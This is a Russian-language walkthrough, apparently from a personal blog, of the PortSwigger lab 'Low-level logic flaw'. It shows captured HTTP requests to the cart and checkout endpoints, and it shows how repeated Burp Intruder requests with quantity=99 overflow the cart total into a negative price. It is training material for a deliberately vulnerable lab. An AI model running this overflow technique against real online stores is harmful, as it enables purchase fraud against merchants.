 ```yaml
---
title: "Low-level logic flaw"
date: 2025-10-23
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level"
classes: wide
---
```


В лабе плохо валидируется ввод. Для прохождения нужно купить `Lightweight l33t leather jacket`. Даны креды для учетной записи `wiener`:`peter`.

```
https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/
```

# Solution

Зайду в личный кабинет.

Попробую добавить товар в корзину:

```http
POST /cart HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=3&redir=PRODUCT&quantity=1
```

Куплю его:

```http
POST /cart/checkout HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=vSbOxMSOjpYUHzNje0Pgw4bTBL1TXpwk
```

В этих запроса меня заинтересовал только параметр `quantity`. Закину запрос в `Repeater`.

Отрицательное количество товара сделать уже не получается)

Попробовав добавить в корзину 100 товаров я столкнулся с неожиданной ошибкой:

```http
POST /cart HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=3&redir=PRODUCT&quantity=100
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"Invalid parameter: quantity"
```

Есть подозрение, что сделано это не случайно. Попробую отправить кучу запросов через `Inrtuder`, выбрав `Null payload`:

```http
POST /cart HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=2&redir=PRODUCT&quantity=99
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/1.jpg){: height="200" .align-center}

Спустя множество атак я добился отрицательного баланса)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/2.png){: height="200" .align-center}

Попрбую добавить нужный товар и оплатить. Если не выйдет, то буду добавлять товары, пока не получу положительный баланс...

И купить сразу не вышло. Поэтому будем добивать цену до положительной.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/3.jpg){: height="200" .align-center}

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/4.png){: height="200" .align-center}

С количеством - перебор, но лаба решена.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/5.png){: height="200" .align-center}